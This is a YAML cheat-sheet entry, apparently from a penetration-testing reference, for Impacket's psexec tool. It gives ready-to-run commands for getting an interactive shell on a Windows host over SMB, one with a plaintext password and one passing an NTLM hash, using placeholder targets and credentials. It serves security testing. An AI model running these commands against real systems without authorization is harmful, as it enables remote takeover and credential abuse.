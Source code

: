 ```yaml
---
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host. Or can also be used to find writable shares on the target machine.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Domain controller: 10.10.10.111  

  	Username: john

  	Password: password123
    
  	--hashes: ":31d6cfe0d16ae931b73c59d7e0c089c0" (for pass the hash)

command: |
  impacket-psexec test.local/john:password123@10.10.10.1 -dc-ip 10.10.10.111

code: |
  impacket-psexec test.local/john@10.10.10.1 -hashes ":31d6cfe0d16ae931b73c59d7e0c089c0" -dc-ip 10.10.10.111


items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Enumeration
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
---
```

